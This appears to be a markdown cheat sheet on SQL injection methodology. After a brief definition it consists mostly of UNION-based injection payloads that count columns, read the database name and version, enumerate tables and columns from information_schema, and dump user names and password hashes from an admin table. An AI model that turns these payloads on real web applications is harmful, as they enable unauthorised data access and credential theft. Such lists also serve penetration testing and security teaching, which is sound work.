 #### SQL Injection Methodology
SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution (e.g. to dump the database contents to the attacker).

* SELECT DATA  
```SELECT```
* RETRIEVE DATA FROM MULTIPLE TABLES   
```UNION```
* ADD DATA     
```INSERT```

```
1 UNION SELECT 1
```
```
1 UNION SELECT 1,2
```
```
1 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,database()

```
' or1=1-- -

' UNION SELECT NULL,NULL,NULL,NULL-- -

' UNION SELECT 1,2,3,4-- -

123123' UNION SELECT NULL,NULL,NULL,NULL-- -

123123' UNION SELECT NULL,database(),NULL,NULL-- -

123123' UNION SELECT NULL,@@version,NULL,NULL-- -

123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,table_name,table_schema,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,column_name,table_schema,NULL from information_schema.columns-- -

123123' UNION SELECT NULL,column_name,table_name,NULL from information_schema.columns-- -

123123' UNION SELECT NULL,user,hash,NULL from admin-- -
```
